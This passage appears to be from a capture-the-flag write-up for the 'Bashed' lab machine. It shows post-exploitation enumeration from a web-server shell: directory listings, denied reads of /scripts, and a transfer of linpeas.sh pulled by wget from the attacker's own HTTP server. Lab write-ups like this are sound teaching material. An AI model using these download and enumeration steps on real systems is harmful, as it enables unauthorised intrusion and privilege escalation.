 Enumerating files in arrexel:

```bash
www-data@bashed:/var/www/html/dev# ls -la /home/arrexel

total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

`.sudo_as_admin_successful` looks interesting, but is empty. The `.nano` directory was also empty.

The scripts directory was interesting, but I was blocked from looking at it:

```bash
www-data@bashed:/var/www/html/dev# ls -la /scripts
  
ls: cannot access '/scripts/..': Permission denied  
ls: cannot access '/scripts/test.py': Permission denied  
ls: cannot access '/scripts/test.txt': Permission denied  
ls: cannot access '/scripts/.': Permission denied  
total 0  
d????????? ? ? ? ? ? .  
d????????? ? ? ? ? ? ..  
\-????????? ? ? ? ? ? test.py  
\-????????? ? ? ? ? ? test.txt  

www-data@bashed:/var/www/html/dev# cat /scripts/test.py
  
cat: /scripts/test.py: Permission denied  

www-data@bashed:/var/www/html/dev# cat /scripts/test.txt
  
cat: /scripts/test.txt: Permission denied
```

I tried looking for other interesting files in `/var/www/html`. There was a `config.php` file, but nothing in it besides a fake email for the `php/sendMail.php` file.

I also tried reading the `.bash_history` files for `arrexel` and `scriptmanager`, but I was not allowed.

### Linpeas

I cracked and tried to run linpeas. As this is the first time I've done this in this series, I'll briefly explain the file transfer process. `linpeas.sh` is hosted on my box in a directory full of enumeration scripts. I can run a python server in this directory with `python3 -m http.server`, and download files from it with `wget [IP]:8000/linpeas.sh` - this is the easiest way to transfer files to the remote machine.
